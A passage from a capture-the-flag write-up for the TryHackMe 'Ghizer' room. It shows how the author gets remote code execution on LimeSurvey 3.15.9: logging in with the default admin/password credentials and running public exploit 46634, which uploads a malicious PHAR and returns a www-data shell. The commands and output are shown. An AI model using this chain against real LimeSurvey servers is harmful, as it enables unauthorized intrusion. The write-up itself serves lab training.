 Found it's version: `LimeSurvey 3.15.9 (build 190214)`.

Let's try the `LimeSurvey < 3.16 - Remote Code Execution` exploit, which found via `searchsploit`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# searchsploit -m 46634
```

**And it needs credentials, which we currently don't have it:**
```
# Usage: python exploit.py [URL] [USERNAME] [PASSWORD]
```

Then, I decided to dig deeper in the rabbit hole.

**In their GitHub repository, I found the default password in the admin panel:**
```php
$config['defaultuser'] = 'admin'; // This is the default username when LimeSurvey is installed
$config['defaultpass'] = 'password'; // This is the default password for the default user when LimeSurvey is installed
```

Let's try that credentials!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Ghizer/images/a2.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Ghizer/images/a3.png)

Oh!! I'm in!

Armed with this information, let's go back to the `46634.py` exploit and run it!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# python2 46634.py http://ghizer.thm admin password
[*] Logging in to LimeSurvey...
[*] Creating a new Survey...
[+] SurveyID: 252422
[*] Uploading a malicious PHAR...
[*] Sending the Payload...
[*] TCPDF Response: <strong>TCPDF ERROR: </strong>[Image] Unable to get the size of the image: phar://./upload/surveys/252422/files/malicious.jpg
[+] Pwned! :)
[+] Getting the shell...
$ whoami;hostname;id;ip a
www-data
ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:56:23:b0:c1:77 brd ff:ff:ff:ff:ff:ff
    inet 10.10.160.234/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::56:23ff:feb0:c177/64 scope link 
       valid_lft forever preferred_lft forever
```
